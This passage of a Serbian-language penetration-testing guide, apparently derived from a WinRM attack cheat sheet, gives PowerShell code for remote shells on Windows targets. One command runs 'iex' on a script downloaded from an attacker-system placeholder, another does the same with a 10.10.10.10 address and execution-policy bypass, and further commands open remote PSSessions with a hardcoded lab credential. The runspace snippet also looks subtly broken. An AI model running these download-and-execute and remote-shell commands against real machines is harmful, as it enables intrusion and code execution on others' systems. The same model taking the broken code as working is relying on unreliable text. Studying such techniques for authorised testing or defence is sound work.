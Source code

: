 ```powershell
$session = New-Object System.Management.Automation.Runspaces.WSManConnectionInfo("http://<napadacki_sistem>:<port>/wsman")
$shell = New-Object System.Management.Automation.Runspaces.RunspaceFactory::CreateRunspace($session)
$shell.Open()
$shell.SessionStateProxy.SetVariable("client", $shell)
$shell.SessionStateProxy.InvokeCommand.InvokeScript("iex (New-Object Net.WebClient).DownloadString('http://<napadacki_sistem>:<port>/shell.ps1')")
```

Zamenite `<napadacki_sistem>` sa IP adresom ili DNS imenom vašeg napadačkog sistema, a `<port>` sa odgovarajućim portom.

#### 3. Korišćenje drugih alata

Pored Metasploit-a i PowerShell-a, postoje i drugi alati koji mogu biti korisni za dobijanje obrnutog školjka putem WinRM-a. Na primer, alat poput `evil-winrm` može vam pomoći da brzo uspostavite obrnutu školjku na ciljnom sistemu. Ovi alati često imaju jednostavno korisničko sučelje i pružaju vam mogućnost da lako uspostavite obrnutu školjku.

Važno je napomenuti da je dobijanje obrnutog školjka na ciljnom sistemu bez odgovarajuće dozvole nezakonito. Ove tehnike treba koristiti samo u okviru zakonskih i etičkih granica, kao deo testiranja penetracije ili za druge legitimne svrhe.
```powershell
Invoke-Command -ComputerName <computername> -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/ipst.ps1')"}
```
### Dobijanje PS sesije

Da biste dobili interaktivnu PowerShell sesiju, koristite `Enter-PSSession`:
```powershell
#If you need to use different creds
$password=ConvertTo-SecureString 'Stud41Password@123' -Asplaintext -force
## Note the ".\" in the suername to indicate it's a local user (host domain)
$creds2=New-Object System.Management.Automation.PSCredential(".\student41", $password)

# Enter
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local [-Credential username]
## Bypass proxy
Enter-PSSession -ComputerName 1.1.1.1 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
# Save session in var
$sess = New-PSSession -ComputerName 1.1.1.1 -Credential $creds -SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)
Enter-PSSession $sess
## Background current PS session
Exit-PSSession # This will leave it in background if it's inside an env var (New-PSSession...)
```